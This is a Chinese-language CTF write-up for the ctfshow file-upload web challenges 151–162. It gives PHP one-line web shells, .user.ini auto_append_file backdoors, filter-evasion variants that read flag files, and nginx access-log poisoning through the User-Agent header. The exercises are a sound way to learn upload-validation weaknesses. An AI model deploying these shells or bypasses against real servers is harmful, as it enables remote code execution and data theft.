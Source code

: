 ```yaml
---
title: "ctfshow Web入门[文件上传] Writeup"
date: 2022-07-29T14:29:48+08:00
draft: false
tags: []
categories: []
author: "X1r0z"

# weight: 1  # Top page

# You can also close(false) or open(true) something for this content.
# P.S. comment can only be closed
comment: false
toc: false
autoCollapseToc: false
---
```


<!--more-->

## web151

"前台校验不可靠"

前端 js 验证, 同时对图片内容进行了验证

![20220729144234](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/20220729144234.png)

上传抓包改后缀

![20220729144318](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/20220729144318.png)

## web152

之前的图片马抓包改后缀上传直接就成功了

看了 wp 才发现是在验证 MIME Type (Content-Type)

## web153

一开始试了好几个后缀都不成功 (应该是黑名单验证)

网上查了一下考察的是 `.user.ini` (因为服务器是 nginx 的, 如果是 apache 就可以利用 .htaccess)

[https://www.cnblogs.com/NineOne/p/14033391.html](https://www.cnblogs.com/NineOne/p/14033391.html)

我的理解是用户层面的 `php.ini` (类似于 dll 查找优先级), 一部分配置 (除了 PHP_INI_SYSTEM 以外) 可以优先于 `php.ini` 生效

其中的两个配置 `auto_append_file` `auto_prepend_file` 能用来制造后门

`auto_append_file` 在该目录下的所有文件头部包含某个文件的内容, `auto_prepend_file` 则是在文件尾部包含某个文件的内容

注意这个是不能跨目录的, `.user.ini` 的作用范围被限制在了上传后所在的文件夹, 但这里**碰巧**的是 /upload/ 目录下存在一个 index.php

![20220729151238](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/20220729151238.png)

根据黑名单机制, 我们先上传图片马, 然后上传 `.user.ini`, 内容如下

```
auto_append_file = "2.png"
```

注意修改 Content-Type, 而且文件名要加引号

访问 index.php

![20220729151810](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/20220729151810.png)

## web154

图片不能正常上传

测试了一下发现是检测了文件内容中的 `php` 字符串

将 php 改成 `=` 即可绕过 (或者 `php` 修改为大写)

```
<?= eval($_REQUEST['a']); ?>

<?phP eval($_REQUEST['a']); ?>
```

 之后配合 `.user.ini`

 或者是利用 PHP 短标签, 将一句话改为 `<? eval($_REQUEST['a']);?>`

 `.user.ini` 改为如下内容

 ```
auto_append_file = "2.png"
short_open_tag = On
 ```

 上传即可

 使用 `<script>` 标签也可以, 未测试

 ## web155

 过滤了 `PHP`, 忽略大小写

 利用 `<?=` `<?` 短标签依然可以绕过

 ## web156

自己的图片马有点问题, 把代码删掉还是传不了

看了师傅的 wp 发现是过滤了 `[]`

用 `{}` 绕过

```
<?= eval($_REQUEST{'a'}); ?>

<?= eval($_REQUEST{1}); ?>
```

## web157

`[]` `{}`, `;` 都被过滤了

考虑到机器是 Linux, 使用 `system()` 执行文件查看 flag.php

`php` 被过滤了, 但是可以用通配符 `*`

```
Gif89a
<?= system('cat ../flag.*')?>
```

之后访问 /upload/index.php 右键查看 flag

## web158

同上

## web159

又过滤了 `()`

用反引号绕过

```
<?= `cat ../flag.*`?>
```

## web160

反引号和空格也被过滤了, 没想出来

网上 wp 的思路是通过文件包含

nginx 默认日志地址为 `/var/log/nginx/access.log`

默认格式

```
log_format access '$remote_addr – $remote_user [$time_local] "$request"' '$status $body_bytes_sent "$http_referer"' '"$http_user_agent" $http_x_forwarded_for';
```

include

注意 log 被过滤了, 需要拼接字符串
```
<?=include"/var/lo"."g/nginx/access.lo"."g"?>
```

更改 User-Agent 为 PHP 一句话, 再访问一次网站即可

也可以用伪协议, 字符串拼接绕过过滤

```
<?=include"ph"."p://filter/convert.base64-encode/resource=../flag.ph"."p"?>
```

## web161

增加了对文件头的验证

![20220729191141](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/20220729191141.png)

![20220729191507](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/20220729191507.png)

Content-Type, filename 文件头都是 gif 格式的竟然上传不了

把前两个改成 png 就能上传了

使用 GIF89a 的原因是他是 jpg png gif bmp 中唯一一个可以以字符串表示的文件头

获取 flag 方法同上

后来查了一下发现是利用 `getimagesize()` 验证文件头的

## web162

`.` `flag` 被过滤了

看了 wp 才知道考察的是 session 文件包含 + 条件竞争